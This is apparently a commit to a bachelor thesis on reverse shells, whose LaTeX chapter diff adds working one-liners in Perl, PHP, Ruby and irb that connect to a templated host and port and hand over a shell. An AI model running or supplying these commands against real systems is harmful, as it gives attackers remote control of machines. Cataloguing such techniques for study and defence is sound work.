

Before and after one commit to matusbucher/bachelor-thesis, a LaTeX thesis (thesis/main.tex, which reads thesis/chapters/chapter01.tex): part of page 24 of 31 before the commit and two parts of pages 24 and 25 of 33 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
Add perl, php ruby

```diff
--- a/thesis/chapters/chapter01.tex
+++ b/thesis/chapters/chapter01.tex
@@ -126,9 +126,32 @@
 
 \subsection{Perl}
 
+\begin{cmdline}{bash}{|}{perl}{}
+perl -e 'use Socket; socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in(|\port|,inet_aton("|\host|")))){ open(STDIN,">&S"); open(STDOUT,">&S"); open(STDERR,">&S"); exec("|\shell|");};'
+\end{cmdline}
+\TODO{dependencies}
+
 \subsection{PHP}
 
-\subsection{Ruby}
+\begin{cmdline}{bash}{|}{php}{}
+php -r '$sock=fsockopen("|\host|",|\port|); exec("|\shell| <&3 >&3 2>&3");'
+\end{cmdline}
+%$
+\TODO{dependencies}
+
+\subsection{Ruby (\texttt{ruby})}
+
+\begin{cmdline}{bash}{^}{ruby}{}
+ruby -rsocket -e 'exit if fork; c=TCPSocket.new("^\host^",^\port^); while(cmd=c.gets); IO.popen(cmd,"r"){|io|c.print io.read} end'
+\end{cmdline}
+\TODO{dependencies}
+
+\subsubsection{Interactive Ruby Shell (\texttt{irb})}
+
+\begin{cmdline}{bash}{^}{echo,irb}{}
+echo 'require "socket"; exit if fork; c=TCPSocket.new("^\host^",^\port^); while(cmd=c.gets); IO.popen(cmd,"r"){|io|c.print io.read} end' | irb
+\end{cmdline}
+\TODO{dependencies}
 
 \subsection{Node.js (\texttt{node})}
 
```
Also changed, not shown: reverseshell/methodlist.txt (+4 -0 lines), reverseshell/Makefile.
